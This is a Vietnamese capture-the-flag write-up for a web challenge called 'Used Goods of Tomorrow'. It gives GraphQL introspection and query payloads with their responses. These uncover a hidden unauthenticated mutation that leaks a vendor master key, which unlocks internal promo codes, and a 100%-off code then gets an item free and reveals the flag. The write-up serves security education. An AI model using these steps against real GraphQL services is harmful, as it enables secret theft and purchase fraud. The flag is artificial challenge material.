


# Used Goods of Tomorrow

## Kiểm tra giao diện và API

Từ HTML và `/static/app.js` có thể xác định:

- Checkout gọi mutation `placeOrder(listingId, promoCode)`.
- Cart chỉ được lưu trong `localStorage`, server vẫn nhận trực tiếp `listingId` và `promoCode` từ client.

## Xác định các field ẩn bằng GraphQL introspection

Payload:

```json
{
  "query": "{ __schema { queryType { fields { name args { name type { kind name ofType { kind name } } } } } mutationType { fields { name args { name type { kind name ofType { kind name } } } } } } }",
  "variables": {}
}
```

Trong `mutationType` xuất hiện:

```text
register(username: String!, password: String!)
login(username: String!, password: String!)
placeOrder(listingId: ID!, promoCode: String)
vendorTerminalSync(terminalId: ID)
```

Trong `queryType` xuất hiện:

```text
listings
listing(id: ID!)
myAccount
promoCodes(vendorKey: String!)
```

`vendorTerminalSync` là chức năng không được gọi từ giao diện, còn `promoCodes` yêu cầu một `vendorKey`. Đây là hai field cần kiểm tra tiếp.

## Lấy vendor master key

```json
{
  "query": "mutation { vendorTerminalSync { terminalId status firmware vendorKey note } }",
  "variables": {}
}
```

Response:

```json
{
  "data": {
    "vendorTerminalSync": {
      "terminalId": "TERM-00",
      "status": "ONLINE",
      "firmware": "vterm-beta-0.9.7",
      "vendorKey": "VND-MASTER-21d5f80206dffb6fa9ad5722",
      "note": "Diagnostics nominal. Remember to disable this endpoint before public launch."
    }
  }
}
```

Endpoint trả key cho request không xác thực.

## Dùng vendor key để lấy promo nội bộ

```json
{
  "query": "query($k: String!) { promoCodes(vendorKey: $k) { code description percentOff appliesTo } }",
  "variables": {
    "k": "VND-MASTER-21d5f80206dffb6fa9ad5722"
  }
}
```

Response:

```json
{
  "data": {
    "promoCodes": [
      {
        "code": "SCOUT-10",
        "description": "New-scout welcome bonus: 10% off any single listing.",
        "percentOff": 10,
        "appliesTo": null
      },
      {
        "code": "ATOMIC-25",
        "description": "Appliance clearance: 25% off the Atomic Toaster.",
        "percentOff": 25,
        "appliesTo": "1001"
      },
      {
        "code": "FOUNDERS-100",
        "description": "Founders’ comp — 100% off Lot #4042. Internal use only.",
        "percentOff": 100,
        "appliesTo": "4042"
      }
    ]
  }
}
```

Promo cần dùng là `FOUNDERS-100`. Promo này chỉ áp dụng cho listing `4042` và giảm 100%, nên số credits cần trả sẽ bằng 0.

## Khai thác

Tạo 1 tài khoản, có số dư ban đầu là 500 credits:



Add to cart sản phẩm Lot #4042, nhập `promo code` và mua với giá 0 credit:




## Flag

```text
sun{1_l0v3_fr33_stuff}
```
